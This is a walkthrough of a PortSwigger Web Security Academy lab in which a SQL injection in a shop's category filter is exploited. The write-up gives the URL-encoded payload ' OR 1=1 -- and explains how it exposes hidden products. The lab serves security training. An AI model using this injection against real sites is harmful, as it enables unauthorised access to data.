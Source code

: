 # Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
This lab contains a SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out a SQL query like the following:
```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```
To solve the lab, perform a SQL injection attack that causes the application to display details of all products in any category, both released and unreleased.

## Solution
Accessing the website, we can see a online shop with different products. If we click on some of the filters, we can see the URL containing the part of the WHERE clause: `https://0a13000c04c9d9238078305000e1003b.web-security-academy.net/filter?category=Corporate+gifts`

Since we know the exact query, we can manipulate it as followed: `https://0a13000c04c9d9238078305000e1003b.web-security-academy.net/filter?category=Corporate+gifts%27+or+1=1+--+`

This will create this SQL query:
```sql
SELECT * FROM products WHERE category = 'Corporate gifts' OR 1=1 -- ' AND released = 1
```

With the apostrophe we are ending the string input for the category and with 'OR 1=1' we tell the database to list everything. A last we comment out the rest of the original query with the double dash.

With this injection we get all items from the store and the Lab is completed.
